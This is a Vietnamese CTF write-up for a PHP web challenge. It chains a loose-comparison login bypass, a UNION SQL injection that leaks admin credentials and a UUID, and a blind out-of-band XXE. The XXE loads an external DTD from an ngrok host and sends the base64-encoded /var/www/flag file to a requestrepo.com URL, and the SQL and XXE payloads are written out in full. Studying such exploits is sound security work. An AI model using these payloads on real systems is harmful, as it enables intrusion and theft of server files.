








Bài này cho source mấy bạn có thể dựng lại để làm

Đọc file robots.txt , ta biết được flag ở vị trí `/var/www/flag`


file `login.php` nếu ta cung cấp 1 username không tại và password là 1 array thì ta có thể bypass được chức năng login. Do lỗi loose compare trong php (`==`)




bypass login 



sau khi login thành công, thì ta có thể lấy được username,password của admin thông qua lỗi sqli in `data.php` file via `u` param





Sau đó ta login với username,password của admin thì có thêm 1 chức năng ở trong file [read.php](read.php)


Ta thấy ở đây dính lỗi XXE ở dòng 19, nhưng mà để XXE được thì ta cần có giá trị của `UUID`



leak uuid thông qua lỗi sqli ở trên 



```
payload: data.php?u='union select group_concat(uuidkey) from secretkeys -- -

```
có uuid => xxe (oob load dtd external) vì xxe ở chỗ này không trả về response nên ta cần sử dụng oob , và ta để ý thêm ở dòng 19 nó cho phép load 1 external DTD 



payload: `data=urlencode(<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://7ec7-2402-800-9c00-833c-dbd-e51d-d508-493a.ngrok.io/abc.dtd"> %xxe;]>)`

file abc.dtd in local 

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://ucxmnvwb.requestrepo.com?x=%file;'>">
%eval;
%exfiltrate;
```
ref:
https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band